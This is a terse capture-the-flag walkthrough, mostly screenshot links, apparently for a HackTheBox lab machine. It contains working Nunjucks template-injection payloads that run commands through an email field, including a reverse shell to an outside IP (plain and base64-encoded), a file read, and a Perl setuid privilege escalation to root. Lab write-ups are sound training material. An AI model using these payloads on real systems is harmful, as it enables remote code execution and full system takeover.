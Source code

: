 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. [Payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. [tool](https://www.revshells.com/)

payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/303fe797-ef49-4dcb-81ae-785804ae8d70)

18. [web](https://gtfobins.github.io/gtfobins/perl/#capabilities)

Checking perl location:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/09cb1ea2-5587-451a-86b9-0c4ffcc96e24)

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f07731f3-52e7-4185-9d6a-b6f9f57229fd)

20. `echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22.























